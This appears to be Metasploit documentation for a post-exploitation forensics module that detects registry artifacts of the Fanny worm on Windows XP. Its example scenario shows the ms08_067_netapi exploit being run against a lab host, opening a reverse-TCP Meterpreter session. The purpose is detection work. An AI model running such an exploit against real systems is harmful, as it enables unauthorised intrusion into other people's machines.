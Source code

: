 ## Vulnerable Application
Fanny or DWE for short. (DWE = DementiaWheel)

Detection module based on the `post/windows/gather/forensics/duqu_check` module. Fanny is a worm that infects windows
machines, via USB (not trough Autorun, or at least not only).

In fact, it used exploits later found in StuxNet. It creates creates some Registry artifacts.

This module is intended to detect those artifacts.

#### Supported Environments:
- Windows x86

#### Supported SessionTypes:
- Meterpreter
- Shell

#### Supported OS's:
- Windows XP Pro (SP3)

## Verification Steps

- Start msfconsole
- Open a session on a Windows host (using `exploit/windows/smb/ms08_067_netapi` for example)
- Use `post/windows/gather/forensics/fanny_bmp_check`
- Set the `SESSION` datastore option to the target session
- Run the module

## Options

## Scenarios

### Windows XP SP3
```
msf6 exploit(windows/smb/ms08_067_netapi) > use exploit/windows/smb/ms08_067_netapi
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 192.168.122.1
msf6 exploit(windows/smb/ms08_067_netapi) > set RHOST 192.168.122.160
msf6 exploit(windows/smb/ms08_067_netapi) > set LPORT 4444
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 192.168.122.1:4444 
[*] 192.168.122.160:445 - Automatically detecting the target...
[*] 192.168.122.160:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 192.168.122.160:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 192.168.122.160:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 192.168.122.160
[*] Meterpreter session 4 opened (192.168.122.1:4444 -> 192.168.122.160:1043) at 2020-12-22 16:55:02 +0100

meterpreter > run post/windows/gather/forensics/fanny_bmp_check
 
[*] Searching the registry for Fanny.bmp artifacts.
[+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\Driver found in registry.
[+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter2 found in registry.
[+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter3 found in registry.
[+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter8 found in registry.
[*] WORKSTATION1: 4 result(s) found in registry.
meterpreter >
```
